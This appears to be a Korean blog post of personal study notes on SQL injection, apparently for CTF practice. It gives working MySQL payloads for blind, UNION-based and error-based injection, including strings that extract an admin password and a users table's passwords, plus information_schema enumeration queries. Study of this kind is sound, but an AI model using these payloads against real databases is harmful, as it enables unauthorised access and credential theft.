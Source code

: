 ```yaml
---
layout: post
title:  Sql Injection
date: 2023-12-10 20:00:01 +0900
categories: Web
---
```

## 시스템 테이블
> `information_schema` <br>
> `mysql` <br>
> `performance_schema` <br>
> `sys` <br>


## blind
```sql
1' or (1=1) and '1'='1 -> 참일때
1' or (1=2) and '1'='1 -> 거짓일 때
```
```sql
1' or ((SELECT substr(user_pw,1,1) FROM blind WHERE user_id='admin')='i') and '1'='1
1' or ((SELECT ASCII(substr(user_pw,1,1)) FROM blind WHERE user_id='admin')=105) and '1'='1
```
## Union
```sql
' union select 1,flag,3,4,5 from (select 1,2,3 as flag,4,5 union select * from findflag_2 limit 1)x
-> 컬럼을 몰라도 위 코드를 이용하면 컬럼위치로 select 할 수 있다.
```
## 필터링 우회
- <https://g-idler.tistory.com/61>


## error base 
- <https://4rgos.tistory.com/12>
- <https://www.bugbountyclub.com/pentestgym/view/53>
- <https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c>


```sql
' or row(1,1)>(select count(*),concat((select pw from users),0x3a,floor(rand(0)*2)) x from (select 1 union select 2 union select 3)a group by x limit 1)
' or row(1,1)>(select count(*),concat((pw),0x3a,floor(rand(0)*2)) x from (select 1 union select 2 union select 3)a group by x limit 1)
-> 모든 구문 되는 error based, 앞에서 조회하는 * 중 하나도 가져올 수 있다.
```

## information schema
- <https://poqw.tistory.com/24>
- <https://aceatom.tistory.com/271>

```sql
select schema_name from information_schema.schemata
select table_schema,table_name from information_schema.tables where table_schema='데이터베이스 명'
select table_name,column_name from information_schema.columns where table_schema='데이터베이스 명'
```